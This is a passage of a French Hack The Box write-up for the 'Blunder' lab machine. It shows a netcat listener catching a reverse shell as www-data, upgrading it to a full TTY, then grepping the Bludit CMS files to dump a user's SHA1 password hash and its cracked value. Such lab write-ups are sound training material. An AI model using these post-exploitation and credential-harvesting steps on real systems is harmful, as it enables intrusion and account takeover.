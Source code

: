 ```bash

----------------------------------------------------------------

┌──(kali㉿kali)-[~/htb/Blunder]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.19] from (UNKNOWN) [10.10.10.191] 36802
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:40:39 up 1 day,  7:09,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shaun    :0       :0               Tue16   ?xdm?   8:54   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:/$ export TERM=xterm
export TERM=xterm
www-data@blunder:/$ ^Z
zsh: suspended  nc -lnvp 1337
               
┌──(kali㉿kali)-[~/htb/Blunder]
└─$ stty raw -echo; fg                                                          
[1]  + continued  nc -lnvp 1337

www-data@blunder:/$ whoami
www-data

```

### Getting Hugo user - user flag
En fouillant un peu dans les fichiers du serveur web, on trouve rapidement le mot de passe de hugo:
faca404fd5c0a31cf1897b823c695c85cffeb98d
Dans crackstation on obtient:
hugo : `Password120`

J'ai fait un grep de hugo car j'ai vu le nom de cet utilisant dans le dossier /home. De plus, hugo etait l'utilisateur contenant disposant du fichier user.txt.
```bash
www-data@blunder:/$ cd var
www-data@blunder:/var$ cd www
www-data@blunder:/var/www$ ls
bludit-3.10.0a  bludit-3.9.2  html
www-data@blunder:/var/www$ grep -rni hugo
bludit-3.10.0a/bl-content/databases/users.php:4:        "nickname": "Hugo",
bludit-3.10.0a/bl-content/databases/users.php:5:        "firstName": "Hugo",
www-data@blunder:/var/www$ cd bludit-3.10.0a/
www-data@blunder:/var/www/bludit-3.10.0a$ cd bl-content/
www-data@blunder:/var/www/bludit-3.10.0a/bl-content$ cd databases/
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ ls
categories.php  plugins       site.php    tags.php
pages.php       security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php 
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
```